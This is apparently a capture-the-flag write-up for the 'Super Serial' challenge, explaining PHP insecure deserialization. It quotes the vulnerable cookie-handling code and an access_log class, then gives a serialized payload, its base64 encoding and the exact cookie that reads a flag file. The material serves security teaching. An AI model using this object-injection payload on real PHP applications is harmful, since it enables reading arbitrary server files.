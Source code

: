 # Super Serial

We have a sign in form. Try some username and password but I only get "Invalid Login." from the website.

Notice that we have something in `/robots.txt`:

`User-agent: *`

`Disallow: /admin.phps`

But nothing in `/admin.phps` or `/admin.php`. `.phps` is a hint for me. May be I can read some files that end with `phps`.

Therefore, I have source code of 3 files `index.phps, cookie.phps, authentication.phps`.

Look at this special block source code in `cookie.phps`:

```php
if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}
```

There is a cookie named `login` would be touched after we authenticate. This cookie is defined with `urlencode(base64_encode(serialize($perm_res)))`, where `$perm_res = new permissions($username, $password);`.

When we get an error with deserialization it will return `die("Deserialization error. ".$perm);`. Look at this `access_log` object:

```php
class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}
```

So, we can use `access_log` object to read the flag file `../flag` (in hint): Replace the value `$perm` with a new value, before encrypt:

`O:10:"access_log":1:{s:8:"log_file";s:7:"../flag";}`

After encrypt:

`TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9`

Add cookie `login=TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9` with path `/authentication.php` and `user=admin&pass=123` we will get the flag.
